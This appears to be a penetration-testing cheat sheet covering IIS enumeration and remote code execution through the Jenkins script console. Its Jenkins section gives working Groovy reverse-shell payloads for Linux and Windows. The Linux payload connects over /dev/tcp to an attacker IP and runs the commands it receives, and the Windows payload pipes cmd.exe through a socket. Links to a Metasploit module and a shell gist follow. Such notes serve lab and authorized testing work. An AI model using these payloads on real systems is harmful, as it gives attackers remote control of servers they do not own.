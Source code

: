 ### IIS

##### Enumeration

- General discovery: 

  `/usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt`

- Shortname scanner (`msfconsole or` https://github.com/irsdl/IIS-ShortName-Scanner)

  It returns file/dir name with the wildcards `*` and `*~1`, that have to be fuzzed

- Extensions:

  `/usr/share/wordlists/extension-wordlist/asp.net.txt`

### Jenkins

##### Enumeration

- Configuration → `[URL]/configureSecurity`
- Login Page    → `[URL]/login` → Jenkins Banner / Spraying

##### RCE

1. Access the script console `[URL]/script`, to run Apache Groovy scripts

2. Groovy Linux

   - Groovy code to get rev shell

     ```groovy
     r = Runtime.getRuntime()
     p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
     p.waitFor()
     ```

   - [Metasploit](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/)

3. Groovy Windows

   - Groovy code 

      ```groovy
       String host="localhost";
       int port=8044;
       String cmd="cmd.exe";
       Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
       ```

   - [Java Shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy)
